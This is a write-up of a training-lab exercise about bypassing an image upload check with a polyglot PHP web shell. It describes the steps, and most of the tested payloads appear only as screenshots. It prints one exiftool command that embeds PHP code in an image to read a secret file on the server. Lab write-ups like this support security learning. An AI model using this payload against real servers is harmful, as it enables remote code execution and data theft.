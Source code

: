 # Lab: Remote code execution via polyglot web shell upload

This lab contains a vulnerable image upload function. 
Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. 
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

---


We attempted to upload a basic php web shell to the server:
![image](https://github.com/user-attachments/assets/96c2a7cc-5d7e-4841-9188-e93e5df99744)

We tested with different payloads:
![image](https://github.com/user-attachments/assets/23ab52bd-fa38-4c5b-a767-d85fff8fb473)
![image](https://github.com/user-attachments/assets/1ebdc77f-9097-49c6-9329-7e23a3ec1c92)
![image](https://github.com/user-attachments/assets/0bcea7f5-865d-41f3-9d60-ab212c81e055)
![image](https://github.com/user-attachments/assets/6664122b-e050-40c2-af2c-a6fe45de0f4e)
![image](https://github.com/user-attachments/assets/8dc1f425-bc63-4f57-80c6-ae1d49090ba1)
![image](https://github.com/user-attachments/assets/041f21e0-6908-4acd-9ca9-13d9491764db)
![image](https://github.com/user-attachments/assets/e6843e44-c8c7-4644-8af2-aa5fd01a828a)

We attempted to submit a polyglot web shell using `exiftool`

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.png -o polyglot.php
```
We are creating a polyglot file by embedding PHP code into the metadata of an image file (comments), allowing it to function both as an image and as a PHP script on a vulnerable server.

![image](https://github.com/user-attachments/assets/e94ed620-306e-481c-a1bf-8104f6c7400f)

Then we subbmitted the image and get the response on the repeater:
![image](https://github.com/user-attachments/assets/f676ffe2-9172-4c8a-87a7-56b3bc2549c8)

Once we had the code, we submitted this and solved the lab:
![image](https://github.com/user-attachments/assets/a5095df6-1f34-4f36-8840-b4d8b50b21f0)









